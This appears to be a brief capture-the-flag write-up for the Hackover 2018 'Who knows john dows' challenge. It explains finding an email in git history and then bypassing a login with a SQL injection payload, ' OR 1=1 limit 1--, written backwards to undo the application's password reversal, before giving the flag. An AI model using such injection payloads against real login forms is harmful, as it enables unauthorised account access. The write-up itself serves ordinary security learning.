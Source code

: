 # Who knows john dows

John dows email is in given git repository history.

Next, simple sql injection for password.

`' OR 1=1 limit 1--`

But, source code says that our password will be reversed. 

`--1 timil 1=1 RO '`

Flag is :

`hackover18{I_KN0W_H4W_70_STALK_2018}`